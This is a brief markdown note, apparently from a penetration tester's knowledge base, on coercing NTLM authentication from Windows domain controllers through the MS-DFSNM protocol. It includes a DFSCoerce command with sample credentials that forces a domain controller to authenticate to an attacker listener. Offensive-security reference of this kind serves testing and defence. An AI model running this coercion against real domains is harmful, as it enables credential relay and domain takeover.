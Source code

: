```yaml
---
title: NTLM Relay from DFSNM
---
```


[[notes/ad/ntlm-relay-source]] as domain user from DCs trough [[notes/network/msrpc]] *Distributed File System Namespace Management Protocol* ([MS-DFSNM](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/)).

[[notes/ad/ntlm-relay-from-smb|Coerce authentication from SMB]].

=== "[DFSCoerce](https://github.com/wh04m1001/dfscoerce)"
    ~~~ bash
    python3 ./dfscoerce.py -d corp.local -u jdoe -p 'passw0rd' $lhost dc01.corp.local
    ~~~

This technique is also implemented in [[notes/tools/coercer]].
